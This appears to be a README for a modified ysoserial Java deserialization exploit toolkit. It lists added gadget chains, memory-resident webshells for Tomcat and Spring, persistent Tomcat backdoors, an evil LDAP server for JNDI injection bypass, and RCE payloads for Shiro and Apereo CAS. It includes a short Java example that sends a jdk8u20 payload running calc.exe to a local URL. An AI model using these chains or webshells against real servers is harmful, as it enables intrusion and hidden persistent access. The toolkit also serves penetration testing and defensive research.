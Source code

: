 # added features

2022.9.5 自实现 jdk7u21、jdk8u20

2022.8.27 攻击T3

2022.8.20 解决tomcat的header过大问题，Value 内存马

2022.8.19 tomcat 持久化后门 ，Listener内存马

2022.8.10 springmvc interceptor内存马

2022.8.9 springmvc controller内存马

2022.8.4 evil ldap server 用于 jndi 注入高版本绕过

2022.7.23 agent型内存马

2022.7.9 heassian序列化、反序列化

2022.6.26 Encoder，ReadWrite 工具类

2022.6.11 JavaCompiler 工具类，使用javac动态编译实现Eval（凡是底层用了 `TemplatesImpl` 的链子，都可以通过 Eval 的包装实现任意 java 代码执行，从而实现注入内存马、RCE回显等功能），CC12，emptySignedObject二次反序列化，Filter 型、Servlet 型内存马

2022.6.10 RomeTools，Apereo CAS 4.1 RCE，CC8，CC9，CC10

2022.4.22 RCE 回显，shiro550，RequestHttp工具类，CB no CC



## exploit

> 对增加的一些 features 的用法，做简单的展示

### jdk8u20 使用

```java
package top.inhann;

import ysoserial.payloads.Jdk8u20_my;
import ysoserial.payloads.util.HttpRequest;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8080/bitch";
        byte[] ser = new Jdk8u20_my().getPayload("calc.exe");
        byte[] resp = new HttpRequest(url).addPostData(ser).send();
        System.out.println(new String(resp));
    }
}
```



### 注入内存马：
